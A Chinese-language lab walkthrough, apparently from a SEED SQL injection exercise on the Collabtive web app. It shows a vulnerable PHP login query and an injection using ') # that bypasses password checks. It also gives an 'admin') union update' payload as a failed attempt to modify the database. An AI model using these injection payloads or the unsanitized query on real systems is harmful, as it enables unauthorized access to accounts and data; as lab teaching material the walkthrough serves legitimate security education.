 ```
sudo vim /var/www/SQL/Collabtive/include/class.user.php
```
&gt;设置行号 :set number

&gt;	查找   :/keyword

找到其中第`375`行

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid912time1429496701782?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

```
$sel1 = mysql_query (&#34;SELECT ID, name, locale, lastlogin, gender, FROM user WHERE (name = &#39;$user&#39; OR email = &#39;$user&#39;) AND pass = &#39;$pass&#39;&#34;);
```

这一句就是我们登录时，后台的sql语句；我们可以构造一个语句，在不知道密码的情况下登陆；

```
 $sel1 = mysql_query (&#34;SELECT ID, name, locale, lastlogin, gender, FROM user WHERE (name = &#39;$user &#39;) #&#39; OR email = &#39;$user&#39;) AND pass = &#39;$pass&#39;&#34;);
```
修改完后重启一下服务器：

```
sudo sudo service apache2 restart
```

我们在`$user `后面加上`) #`  这样就会只验证用户名，后面的会被`#`注释

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid912time1429497033988?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

点击登陆以后，我们就可以绕过密码直接登录：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid912time1429497124130?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)


思考：

&gt; 你是否可以找到一个方法来修改数据库（仍然使用上述SQL查询）？

&gt;例如，你能添加一个新的登陆用户，或删除现有的用户？显然，上述的SQL语句是一个查询只陈述，并且不能更新数据库。但是，使用SQL注入，你可以把上面的语句分割为两个语句，后面是更新语句。

&gt;请试试这个方法，看看是否可以成功地更新数据库？

答案：

&gt; 其实，我们都无法达到更新的目标。这是因为在MySQL中实现的特定的防御机制。在报告中，你应该告诉我们你有什么企图以修改数据库。你应该找出原因的攻击失败，是什么机制在MySQL中阻止这种攻击。

登陆用户名：

```
admin&#39;) union update user set name=&#39;test&#39; #
```

登陆密码：随意的字符

登陆失败

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid912time1429497357973?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)
